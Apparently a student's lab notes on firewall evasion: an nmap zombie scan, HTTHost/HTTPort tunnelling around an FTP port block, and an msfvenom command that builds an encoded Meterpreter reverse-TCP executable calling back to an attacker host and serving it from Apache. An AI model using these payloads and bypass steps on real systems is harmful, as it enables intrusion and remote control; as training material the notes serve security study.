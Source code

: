 
**Nmap Evasion Techniques – Firewall Rule Bypass**

- Enable victim firewall. Create inbound rule and block connection from attacker IP.
- Run different scans from attacker machine. Use Zombie scan to bypass firewall rule. | ***nmap -sI <Zombie IP> <Target IP>***


**HTTHOST AND HTTPORT - Bypassing Firewall Rules Using HTTP/FTP Tunneling Setup HTTHOST (this will route the request of restricted machine)**

- Open Services. Disable **IIS Admin Service** and **World Wide Web Publishing.**
- Open HTTHost Options tab, keep default options
- Change Personal Password to “magic”.
- Check **Revalidate DNS names** and **Log Connections**, click **Apply**
- Open Application log and see **listening at 0.0.0.0:80**
- Leave HTTHost on.


**Setup HTTPORT (this will be setup on machine with restricted access)**

- Open **inetmgr**
- Expand Server node à Sites à FTP à Right click Manage FTP à Stop
- Turn on firewall from Control Panel.
- Create Outbound Firewall Rule.
- Select **Port** as **Rule Type**
- Select **All remote ports** in **Protocol and Ports**
- Next **Block the Connection**
- Set Rule name and finish.
- Right click new rule and go to properties. In **Protocols and Ports** à **Remote Port** à **Specific Ports** à **21** à **Apply.**
- Now connection to remote machines on port 21 is blocked.
- Install HTTPort and run
- Go to **Proxy** tab à Enter Host name of HTTHOST machine and port 80 à Bypass mode (Remote Host) à Use personal Remote host (Enter Host name of HTTHOST machine and port 80 and password “magic”).
- Go to **Port mapping** à **Add** à **New Mapping (Edit and rename ftp test)** à **Local Port (Edit 21)** 
  - **Remote Host (10.10.10.10** the host which we want to connect to**)** à **Remote Port (21).**
- Cick **Proxy** and **Start**
- Access remote host via *ftp 127.0.0.1* | Jason:qwerty
- Type **mkdir Test** | will create directory inside remote host c:\FTP


**Metasploit – Firewall Bypass**

- Turn on firewall on victim machine


**Payload Setup**

- ***msfvenom -p windows/meterpreter/reverse\_tcp --platform windows -a x86 -e x86/shikata\_ga\_nai -b "\x00" LHOST=10.10.10.11 -f exe > Desktop/Exploit.exe*** | -e encoder, -b list of bad characters to avoid
- _Type **mkdir /var/www/html/share**_** | make directory
- Type ***chmod -R 755 /var/www/html/share*** | change rights recursively to all files and folders inside
- Type ***chown -R www-data:www-data /var/www/html/share*** | change owner recursively  owner:group
- ***mv /root/Desktop/Test.exe /var/www/html/share*** | move to exploit
- ***service apache2 start***
